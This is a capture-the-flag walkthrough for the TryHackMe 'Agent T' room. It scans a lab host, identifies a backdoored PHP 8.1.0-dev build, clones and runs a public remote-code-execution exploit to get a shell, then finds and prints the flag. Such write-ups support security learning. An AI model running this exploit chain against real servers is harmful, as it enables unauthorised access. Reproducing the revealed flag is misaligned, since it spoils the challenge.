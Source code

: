 ```yaml
---
title: Agent T - TryHackMe Walkthrough
date: 2024-06-28
categories: [Walkthrough]
tags: [TryHackMe, CTF]
---
```


![alt text](https://miro.medium.com/v2/resize:fit:1400/1*rZMf2CbniQ2Qsmv_k0VXBg.png)

**URL**: [Agent T - TryHackMe](https://tryhackme.com/r/room/agentt)

**Target IP**: 10.10.25.62

## Description

Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.

**Task**: Find the flag.

---

## Step 1: Scan the Target IP using Nmap

We start by scanning the target IP to gather information about open ports and services. We'll use the `-A` option to enable OS detection, version detection, script scanning, and traceroute.

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 10.10.25.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 10:13 IST
Stats: 0:03:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.25.62
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
80/tcp filtered http
Too many fingerprints match this host to give specific OS details
Network Distance: 5 hops

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   39.72 ms  10.17.0.1
2   ... 4
5   161.19 ms 10.10.25.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 689.75 seconds
```

**Analysis**:
- Port 80 is filtered, indicating it is likely protected by a firewall or similar mechanism.
- The scan shows the host is up and accessible.

## Step 2: Explore Port 80

Next, we navigate to the webpage hosted on port 80 at ``http://10.10.25.62/``.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image.png?raw=true)

The webpage looks normal with nothing special. To gather more information about the web technologies used, we utilize the Wappalyzer browser extension.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-1.png?raw=true)

**Analysis**:
- Wappalyzer reveals the PHP version used by the server is 8.1.0. 

## Step 3: Search for Exploits

We search for any known exploits for PHP version 8.1.0. 

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-3.png?raw=true)

During our search, we find a GitHub repository that contains an exploit for PHP 8.1.0-dev remote code execution.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-4.png?raw=true)

**URL**: [PHP 8.1.0-dev Backdoor Remote Code Execution](https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git)

## Step 4: Clone the Repository

We clone the repository to our local machine to use the exploit.

```bash
┌──(root㉿neo)-[~]
└─# git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
Cloning into 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2
Receiving objects: 100% (241/241), 1.66 MiB | 1.44 MiB/s, done.
Resolving deltas: 100% (128/128), done.
                                                                                                                                                                                              
┌──(root㉿neo)-[~]
└─# cd php-8.1.0-dev-backdoor-rce 
                                                                                                                                                                                              
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# ls
backdoor_php_8.1.0-dev.py  docs  README.md  revshell_php_8.1.0-dev.py
```

## Step 5: Run the Exploit

We execute the Python script `backdoor_php_8.1.0-dev.py` from the cloned repository.

```bash
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# python backdoor_php_8.1.0-dev.py                                     
Enter the host url:
http://10.10.25.62/

Interactive shell is opened on http://10.10.25.62/ 
Can't access tty; job control turned off.
$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

**Analysis**:
- The exploit successfully opens an interactive shell on the target server.

## Step 6: Explore the File System

We begin exploring the file system to locate any sensitive files or the flag.

```bash
$ cd /home

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

$ cd /root

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

No significant files found so far. Let's use the `find` command to search for the flag.

## Step 7: Find the Flag

Using the `find` command to search for files named `flag.txt`.

```bash
$ find / -name flag.txt 2>/dev/null
/flag.txt

$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
```

**Flag Found**:
- `flag{4127d0530abf16d6d23973e3df8dbecb}`
